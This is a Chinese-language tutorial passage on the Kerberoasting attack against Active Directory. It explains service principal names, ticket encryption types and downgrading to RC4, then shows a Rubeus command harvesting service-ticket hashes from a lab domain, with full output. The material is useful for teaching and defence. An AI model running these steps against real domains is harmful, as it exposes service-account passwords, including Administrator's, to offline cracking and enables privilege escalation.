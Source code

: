 
## Kerberoasting

在 Active Directory 中，**服务主体名称 (Service Principal Name, SPN)** 是一个唯一的服务实例标识符。Kerberos 使用 SPN 进行身份验证，以将服务实例与一个服务登录账户关联起来，这允许客户端应用程序在不拥有账户名称的情况下也能请求该服务对账户进行身份验证。当请求 Kerberos 的 **TGS (服务票据)** 时，它会使用该服务账户的 NTLM 密码哈希进行加密。

**Kerberoasting** 是一种后渗透攻击技术，通过获取服务票据并执行离线密码破解来“打开”（即解密/破解）票据，从而利用这一行为。如果票据被打开，那么用来打开票据的那个候选密码就是服务账户的密码。这种攻击的成功取决于服务账户密码的强度。另一个有一定影响的因素是创建票据时使用的加密算法，可能的选项有：

- **AES**
- **RC4**
- **DES**（在 15 年以上的老旧环境中使用，通常用于 2000 年代初期的遗留应用；否则，通常会被禁用）

这三种算法在破解速度上有显著差异，AES 比其他算法破解速度慢。虽然安全最佳实践建议禁用 RC4（如果启用了 DES 也应禁用），但大多数环境并未这样做。需要注意的是，并非所有应用程序供应商都已迁移支持 AES（大多数支持，但非全部）。默认情况下，KDC (密钥分发中心) 创建的票据将采用支持的最健壮/最高级别的加密算法。然而，攻击者可以强制降级回 RC4。

### 攻击路径

为了获取可破解的票据，我们可以使用 **Rubeus** 工具。当我们不指定用户而运行 `kerberoast` 操作时，它将提取所有已注册 SPN 的用户的票据（在大型环境中，这可以轻松达到数百个）：


```shell
PS C:\Users\demo\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : eagle.local
[*] Searching path 'LDAP://DC1.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : Administrator
[*] DistinguishedName      : CN=Administrator,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : http/pki1
[*] PwdLastSet             : 07/08/2022 12.24.13
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt


[*] SamAccountName         : webservice
[*] DistinguishedName      : CN=web service,CN=Users,DC=eagle,DC=local
[*] ServicePrincipalName   : cvs/dc1.eagle.local
[*] PwdLastSet             : 13/10/2022 13.36.04
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\bob\Downloads\spn.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\spn.txt
PS C:\Users\bob\Downloads>
```
